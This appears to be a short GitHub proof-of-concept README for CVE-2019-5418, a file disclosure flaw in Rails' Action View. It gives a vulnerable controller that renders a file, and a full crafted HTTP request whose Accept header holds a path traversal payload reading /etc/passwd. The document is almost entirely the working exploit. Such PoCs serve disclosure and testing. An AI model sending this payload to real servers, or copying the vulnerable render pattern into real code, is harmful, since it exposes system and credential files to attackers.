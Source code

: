 # CVE-2019-5418

File content disclosure in Action View library

This is a prove of concept.

With specially crafted HTTP Request possible to render any local file.

Vulnerable code
```
class WelcomeController < ApplicationController

  def text
    render file: FIle.join(Rails.root, 'some_file')
  end

end
```
Make request:

```
GET /welcome/text HTTP/1.1

Host: localhost:3000

User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:65.0) Gecko/20100101 Firefox/65.0

Accept: ../../../../../../../../../../../etc/passwd{{

Accept-Language: en-GB,en;q=0.5

Accept-Encoding: gzip, deflate

Connection: close
Cookie: _implicit_render_session=QUlyNmo3MnFWZVdVMFpZQTBYSU5NSFNqRUFCMGhkRTg3dWFobmRwM2NKQnNoR2lQYXBLZ1ZySXlQZ0IybG1SaE0xZUl2Y2pIZ2RMc3QwaWZMY3QrSjZqNnVSRXlpakxKU1REM1oyREpHMUh0TzVwUUJQMEhwSlJSSEg2WmZLcmhiL0dYTXowdWErcno5aHVBSGxBRkZBPT0tLTZjWmRVbEhDN3hwZldwTFBlakZMdUE9PQ%3D%3D--965383b4bcd1b71ddaaa95f626c3bc0492a0e5aa
Upgrade-Insecure-Requests: 1
```
